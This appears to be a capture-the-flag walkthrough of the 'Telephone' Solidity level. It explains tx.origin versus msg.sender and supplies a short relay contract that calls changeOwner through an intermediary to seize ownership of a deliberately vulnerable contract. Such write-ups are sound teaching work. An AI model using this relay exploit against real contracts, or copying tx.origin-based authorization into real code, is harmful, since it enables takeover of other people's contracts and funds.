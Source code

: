 ***Telephone***

![Alt text](phone.jpg)

Claim ownership of the contract below to complete this level:

```
pragma solidity ^0.8.0;

contract Telephone {

  address public owner;

  constructor() {
    owner = msg.sender;
  }

  function changeOwner(address _owner) public {
    if (tx.origin != msg.sender) {
      owner = _owner;
    }
  }
}
```

Looks like all we have to do to set the owner is make sure the `tx.origin` is anything other than the `msg.sender.`

Did you know that smart contracts have the ability to call other contracts? You could ask contract A to interact with a function in contract B. To contract B, the `msg.sender` is contract A, but the `tx.origin` would be the original entity that kicked off the transaction.

In a simple call chain A->B->C->D, inside D `msg.sender` will be C, and `tx.origin` will be A.

Let's build that!

All we have to do is write a contract that relays the message to a target contract. Import the example that's deployed, add a parameter to set a new owner, and deploy it.

```
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

import 'target.sol';

contract test {
    function run(address _target, address _newOwner) public{
        Telephone(_target).changeOwner(_newOwner);
    }
}
```
![Alt text](instance.jpg)

Add the instance of your deployed Telephone contract as a parameter and you'll be ready to pass on the new owner.

![Alt text](deployed%20contracts.jpg)

Easy enough!

![Alt text](complete.jpg)

